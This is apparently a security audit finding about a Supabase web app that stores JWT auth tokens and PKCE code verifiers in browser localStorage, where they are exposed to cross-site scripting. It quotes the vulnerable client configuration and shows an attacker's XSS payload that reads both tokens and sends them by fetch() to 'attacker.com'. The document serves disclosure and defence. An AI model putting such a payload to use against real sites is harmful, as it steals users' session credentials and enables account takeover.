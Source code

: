 The application stores Supabase authentication tokens and PKCE code verifiers in browser localStorage, making them accessible to any JavaScript code running in the same origin. This violates OAuth 2.0 security best practices (RFC 6819) and creates a direct path for credential theft via XSS attacks.

#### Affected Code

**File**: `src/lib/supabase.ts`
**Lines**: 24-52, 71-122

```typescript
// VULNERABLE CODE - Lines 24-52
export const supabase = createClient(
  supabaseUrl || 'https://placeholder.supabase.co',
  supabaseAnonKey || 'placeholder-key',
  {
    auth: {
      autoRefreshToken: true,
      persistSession: true,        // ⚠️ CRITICAL: Stores tokens in localStorage
      detectSessionInUrl: true,
      flowType: 'pkce'             // PKCE verifiers also stored in localStorage
    }
  }
)

// VULNERABLE CODE - Lines 84-88
const keysToClean = [
  // Actual Supabase session storage keys (accessible via JavaScript)
  `sb-${projectRef}-auth-token`,                    // 🔴 JWT access token
  `sb-${projectRef}-auth-token-code-verifier`,      // 🔴 PKCE verifier
  `sb-${projectRef}-auth-token.0`,                  // 🔴 Additional token data
  `sb-${projectRef}-auth-token.1`                   // 🔴 Additional token data
]
```

#### Attack Scenario

1. **XSS Injection**: Attacker injects malicious JavaScript via:
   - Stored XSS in user-generated content (idea titles, descriptions)
   - Reflected XSS via URL parameters
   - DOM-based XSS via client-side routing

2. **Token Exfiltration**:
```javascript
// Attacker's XSS payload
const projectRef = window.location.hostname.match(/([^.]+)\.supabase\.co/)?.[1];
const token = localStorage.getItem(`sb-${projectRef}-auth-token`);
const verifier = localStorage.getItem(`sb-${projectRef}-auth-token-code-verifier`);

// Exfiltrate to attacker's server
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: JSON.stringify({ token, verifier, origin: window.location.href })
});
```
